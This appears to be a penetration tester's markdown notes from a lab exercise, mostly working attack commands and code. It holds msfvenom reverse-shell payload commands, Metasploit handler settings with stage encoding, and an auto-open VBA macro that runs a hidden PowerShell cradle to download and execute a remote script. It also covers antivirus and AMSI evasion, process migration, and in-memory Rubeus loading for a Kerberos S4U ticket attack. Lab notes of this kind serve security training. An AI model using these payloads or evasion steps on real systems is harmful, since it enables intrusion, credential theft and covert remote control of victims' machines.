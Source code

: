 ## Metasploit framework notes

#### Auto Run Script

```
set AutoRunScript migrate -n explorer.exe
```

## msf encoder

```
set enablestageencoding true
set stageencoder x86/xor_dynamic
```

### Ch1 Notes

### (FAILED)Initial access failed method 1-triggle asmi bypass, add marco payload xor 
1. Identify the web port on 192.168.49.121  allowing file upload. Upload a doc file which allow which allow [ping marco](/msf/ping.vba) command to verify the target allowing code execution though marco 

2. Create stageless tcp raw payload 
```
sudo msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=192.168.49.141  LPORT=443 -f raw -o tcp.bin
```
3. Patch the payload
- **encode the payload with custom wrapper to create exe to bypass defender**
- **append microsoft binary meta data to the payload to bypass smart screen**

4. Create malicious marco with amsi bypass and download our malicou payload to remote host, 
- encode the marco content with powershell  [marco  xor Payload encoder](/msf/payloadencoder.ps)
- [test.txt](/msf/test.txt) contains amsi powershell patching and web invoke request to download our encoded and digitally signed payload
- Craft the [marco](/msf/asmibypasswithxor.vba) and attached to a doc file
5. No call back, no download log, maybe the powershell is not allowed??

### (FAILED)Initial access failed method 2-embed vba shell code in the doc file

1. Create x86 staged payload
```
msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.49.141 LPORT=443 EXITFUNC=thread -f vbapplication
```

2. embed into the [macilous marco](/msf/shellcode.vba) using VirtualAlloc, RtlMoveMemory, CreateThread method
3. lauch msf6

```
set payload windows/meterpreter/reverse_https
set enablestageencoding true
set stageencoder x86/xor_dynamic
run -j
```
4. Not working... maybe the shell code get flaged?

### (FAILED)Initial access failed method 3-embed powershell download cradle to execute payload
```
Sub MyMacro()
    Dim str As String
    str = "powershell (New-Object System.Net.WebClient).DownloadString('http://192.168.49.141/run.ps1') | IEX"
    Shell str, vbHide
End Sub
Sub Document_Open()
    MyMacro
End Sub
Sub AutoOpen()
    MyMacro
End Sub

```

#### shell downloadn works so far

```
 Dim str As String
    str = "powershell -c Start-bitstransfer -source http://192.168.49.141:80/newbeacon.exe -destination C:\\Windows\\Tasks\\newbeacon.exe"
    Shell str, vbHide
```
#### Worksss!! Marco Initial access works
1. Create [shell code runner](/msf/shellrunner.vba) VBA Marco using CreateThread-> execute the shell code, VirtualAlloc-> allocate memeory space for shell code, RtlMoveMemory->copy shell code into memory space

the staged VBA shell code can be generated from msfvenom command 
```
msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.49.141 LPORT=443 EXITFUNC=thread -f vbapplication
```

2. Copy VBA shell code into the [C# caesar cipher](/msf/caesar_cipher.cs) to encode the shell code, compile, run the program and copy output back to VBA marco 
3. Set up the msf c2
```
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_https
set lhost 192.168.49.81
set lport 443
set enablestageencoding true
set stageencoder x86/xor_dynamic
set AutoRunScript migrate -n explorer.exe
run -j
```

####Get into 192.168.141.122 machine, hostname: client

Domain Admins: Administrator and pete


## TTPS
scaning
sudo nmap -A -Pn 192.168.120.130-132

Process Migrate
```
meterpreter > execute -H -f notepad
meterpreter > migrate 620
```

HostRecon
```
PS C:\windows\system32\inetsrv> (new-object system.net.webclient).downloadstring('http://192.168.119.120/HostRecon.ps1') | IEX
```

Check APP blocker rules
```
PS C:\windows\system32\inetsrv> Get-ChildItem -Path HKLM:\SOFTWARE\Policies\Microsoft\Windows\SrpV2\Exe
```

Check LSA protection
```
PS C:\windows\system32\inetsrv> Get-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Control\Lsa -Name "RunAsPPL"
```

Run AMSI patching
```
(new-object system.net.webclient).downloadstring('http://192.168.119.120/amsi.txt') | IEX
```

Powershell Load EXE:
```
PS C:\Windows\system32> $data = (New-Object System.Net.WebClient).DownloadData('http://192.168.119.120/Rubeus.exe')
PS C:\Windows\system32> $assem = [System.Reflection.Assembly]::Load($data)
PS C:\Windows\system32> [Rubeus.Program]::Main("s4u /user:web01$ /rc4:12343649cc8ce713962859a2934b8cbb /impersonateuser:administrator /msdsspn:cifs/file01 /ptt".Split())
```

